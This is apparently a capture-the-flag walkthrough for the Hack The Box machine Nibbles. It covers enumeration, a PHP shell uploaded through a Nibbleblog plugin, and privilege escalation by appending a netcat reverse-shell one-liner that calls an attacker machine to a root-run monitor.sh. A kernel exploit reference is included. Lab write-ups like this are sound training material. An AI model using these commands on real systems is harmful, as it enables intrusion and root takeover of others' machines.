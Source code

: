 # Nibbles HTB, IP 10.10.10.75

# Initial Enumeration

**1. nmap -sC -sV  10.10.10.75**


**2. Dirbuster/ Gobuster**

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog
dirb http://10.10.10.75/nibbleblog -X .php,.bit,.html,.sh

-------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1. Enumerating on port 80


View page source: **Control +U**
 
 
 
**Interesting Files**

http://10.10.10.75/nibbleblog/
 
 After searching  Nibbleblog it is a powerful engine for creating blogs. 
 
**searchsploit nibbleblog**
 

http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
Done, we have an unprivileged shell!!



**Interactive shell**
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color

user.txt

--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## 1.Privilege Escalation monitor.sh file

**sudo -l**




**unzip personal.zip**


**Notes:**
When we see a back up file we first look at permissions and potential vulnerarle code. Then we google the file in order to find more info.
If we cannot overwrite the file we could rename it, remove it, zip it or make my own file containing bash, reverse shell.
The concept when a file runs as root is to add code(reverse-shell).

Add a reverse shell to monitor.sh.
**echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacking machine>  4422 > /tmp/f” >> monitor.sh**


monitor.sh file runs as administrator

**Notes:**
  A System Administrator has to monitor the servers, users, logs, create backup.. For the most repetitive task most of the administrator write a script like monitor.sh to automate their day-to-day repetitive task.
  
## 2.Kernel Exploit
Additionally, this box is vulnerable to a kernel exploit. This monitor.sh file script showed OS Vesion 16.04.3.

  
  
CVE ID 44298
Resource:  https://www.exploit-db.com/exploits/44298

  
 
